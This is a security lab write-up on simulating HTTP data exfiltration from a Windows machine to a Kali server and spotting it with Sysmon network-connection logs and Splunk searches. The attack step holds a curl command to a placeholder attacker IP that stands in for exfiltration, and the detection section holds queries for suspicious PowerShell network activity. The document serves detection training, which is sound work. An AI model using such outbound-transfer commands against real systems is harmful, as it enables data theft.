


# Data Exfiltration Simulation using HTTP Communication

## 1. Introduction

In this lab, data exfiltration behavior was simulated by generating outbound HTTP communication from a Windows system to an external host. The goal was to observe how such activity appears in Sysmon logs and how it can be detected using Splunk.

---

## 2. Lab Setup

* Attacker System: Kali Linux (HTTP server)
* Target System: Windows with Sysmon installed
* Log Forwarding: Splunk Universal Forwarder
* SIEM: Splunk

---

## 3. Attack Simulation

A file was created on the victim system to represent sensitive data. HTTP requests were then made from the victim system to an external server to simulate data transfer behavior.

Commands used:

Windows:

```
echo "top secret data" > secret.txt
```

```
curl http://<attacker-ip>:8000
```

Multiple requests were generated to simulate repeated outbound communication.

<div align="center">
  
  <p><em>Figure 1.1: crating secret data</em></p>
</div>

<div align="center">
  
  <p><em>Figure 1.2: File is created</em></p>
</div>


---

## 4. Log Analysis (Sysmon Event ID 3)

Sysmon captured network connection events corresponding to the HTTP requests.

Key observations:

* Outbound connections from the victim system
* Destination IP corresponds to attacker system
* Communication over HTTP port (8000)
* Process initiating connection: PowerShell

<div align="center">
  
  <p><em>Figure 2: Event Code 3 raw event logs</em></p>
</div>

<div align="center">
  
  <p><em>Figure 3: Expanded event log</em></p>
</div>

---

## 5. Detection in Splunk

### Outbound Communication Detection

```
index=main EventCode=3 DestinationIp=<attacker-ip>
| table _time SourceIp DestinationIp DestinationPort Image
```

---

### Suspicious PowerShell Network Activity

```
index=main EventCode=3
| search Image="*powershell.exe"
| where NOT like(Image, "%splunk%")
| table _time SourceIp DestinationIp DestinationPort Image
```

---

### Frequency Analysis

```
index=main EventCode=3 DestinationIp=<attacker-ip>
| timechart count span=10s
```

These queries help identify repeated outbound communication and suspicious processes initiating network activity.

<div align="center">
  
  <p><em>Figure 4: Suspecious Activity Detection in powershell</em></p>
</div>

---

## 6. MITRE ATT&CK Mapping

* T1041 – Exfiltration Over C2 Channel

---

## 7. Conclusion

The simulation demonstrated how outbound HTTP communication can represent potential data exfiltration behavior. By analyzing network connection logs and identifying unusual processes, it is possible to detect suspicious data transfer activity.